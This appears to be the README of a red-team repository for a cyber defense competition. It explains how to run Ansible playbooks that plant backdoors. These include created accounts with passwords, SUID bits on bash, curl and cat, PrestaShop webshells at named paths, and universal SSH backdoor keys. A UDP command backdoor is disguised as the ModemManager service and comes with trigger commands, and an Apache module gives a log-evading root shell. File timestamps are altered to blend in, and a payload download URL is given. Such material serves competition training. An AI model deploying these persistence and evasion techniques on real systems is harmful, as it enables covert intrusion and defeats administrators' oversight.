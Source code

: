 # How to run Ansible
The plays are defined in ansible/playbooks. Then they are referenced in configure.yml, if you want to add new plays put them in the playbook dir and then add it to the configure.yml file

To run:
ansible-playbook -i inventory.yml confgiure.yml

Some backdoors require clients or private keys.
Download those from http://xync.org/en/payloads.tgz
  Ansible scripts require this file to be unpacked in /opt directory
  If you're not executing ansible, they keys and clients can be used from anywhere

### It will create users:
zonifer:unique_password_zonifer
svc:unique_password_svc
score:unique_password_score
whiteTeam:unique_password_whiteTeam
dnsdog:unique_password_dnsdog
ccdc:unique_password_ccdc
donttouch:unique_password_donttouch

### Disable SELinux on the splunk server

### Add SUID bit to the following binaries
/usr/bin/awk
/usr/bin/cat
/usr/bin/curl
/usr/bin/base64
/bin/bash
/usr/bin/cp
/usr/bin/curl
/usr/bin/dig
/usr/bin/find
/usr/bin/file

### Drop webshells on .11 
/var/www/html/prestashop/carts.php?carts.php=id
/var/www/html/prestashop/config/confi.php?_=id
/var/www/html/prestashop/classes/Backups.php?backup=id
/var/www/html/prestashop/classes/tax/taxes3.php?tax=id

### SSH Modifications
Configures ssh to allow password authentication (starts enabled)
Configures ssh to allow logins by root
Adds a universal authorized key called ivbackdoor (allows authentication as any user)
Adds an authorized key to root (rootkey)
Adds an authorized key to sysadmin (or grporter (same key) on Fed21)
Updates modified times on all files to blend in

### Install watershell as a systemd service named ModemManager (runs any command in the payload of a UDP packet to 1337)
echo "run:touch /tmp/win" | socat - udp-datagram:172.25.40.255:1337
OR from a bash shell (not zsh,csh,*sh)
echo "run:touch /tmp/win" > /dev/udp/172.25.40.20/1337

### Install the mod_rootme Apache mod (root shell from a web request, doesn't hit access_logs)
/opt/payloads/common/apache-client [IP]

### Create an /etc/address file
This file contains the external IP address of the machine.  When a beacon calls back, the machine looks identical for every team.  This will let us figure out which team the specific callback belongs to.

# Windows
This folder is full of windows bits

# Persistence
This is a general linux based persistence

# funStuff is for troll scripts & 
